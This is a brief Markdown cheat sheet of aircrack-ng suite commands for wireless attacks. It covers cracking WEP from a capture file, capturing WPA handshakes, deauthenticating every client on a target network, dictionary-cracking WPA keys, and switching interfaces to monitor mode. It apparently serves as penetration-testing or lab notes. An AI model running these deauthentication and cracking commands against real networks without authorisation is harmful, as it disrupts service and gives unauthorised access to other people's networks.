 # WEP networks

Finding WEP networks in pcap file
`airodump-ng -r WEP-Cracking.cap`

Crack WEP
`aircrack-ng -b <bssid> WEP-Cracking.cap`

# WPA networks

List available wifi interfaces on machine
`iw dev`
View available wifi networks on interface
`airodump-ng wlan0`
Select network to and output to file
`airodump-ng wlan0 -c <channel> -w <outputfile>`
Perform deauth attack on selected network for all clients
`aireplay-ng -0 100 -a <bssid> wlan0`
Crack WPA
`aircrack-ng -w <wordlist> <pcap>`

## WPA supplicant conf

```
network={
ssid="NewGenAirways"
scan_ssid=1
key_mgmt=WPA-PSK
psk="password"
}
```

Run supplicant on interface 1
`wpa_supplicant -B -Dnl80211 -iwlan1 -c supplicant.conf`

Get ip address on that interface
`dhclient -v wlan1`

# iw

Putting interface into monitor mode
`iw dev wlan0 setup monitor none`

```
sudo ip link set wlp1s0 down
sudo iw wlp1s0 set monitor none
sudo ip link set wlp1s0 up
```

Get amount of interfaces on 5Ghz band
`iw list`

Scanning 5ghz and 2.4ghz
`airodump-ng wlan0 -b ba`
